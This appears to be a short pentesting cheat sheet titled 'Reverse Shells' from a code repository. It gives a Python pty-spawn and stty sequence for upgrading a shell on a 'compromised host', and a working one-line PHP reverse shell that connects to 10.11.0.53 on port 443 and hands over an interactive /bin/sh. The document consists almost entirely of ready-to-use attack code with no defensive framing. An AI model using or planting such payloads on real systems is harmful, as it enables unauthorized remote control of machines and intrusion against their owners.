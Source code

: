 # Reverse Shells

### Upgrade your shell, upgrade your life

```bash
# On compromised host
python -c 'import pty; pty.spawn("/bin/bash")'
# ctrl-z

# While terminal session backgrounded
stty raw -echo
fg
```

### PHP

```php
<?php $sock=fsockopen("10.11.0.53", 443); proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>
```



